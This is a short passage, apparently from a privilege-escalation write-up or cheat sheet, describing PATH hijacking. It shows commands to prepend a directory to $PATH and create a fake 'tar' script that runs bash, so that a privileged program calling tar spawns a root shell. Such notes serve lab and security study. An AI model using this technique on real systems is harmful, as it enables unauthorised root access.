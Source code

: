 - Find a good directory and edit `$PATH`
    ```bash
    export PATH=<DIR>:$PATH
    ```

- Add file 
    ```bash
    # Make tar file in <DIR> folder specified above
    vim tar

    # In vim

    #!/bin/bash
    bash
    ```
Once the original program executes in the directory, it will run our tar program and spawn a root shell.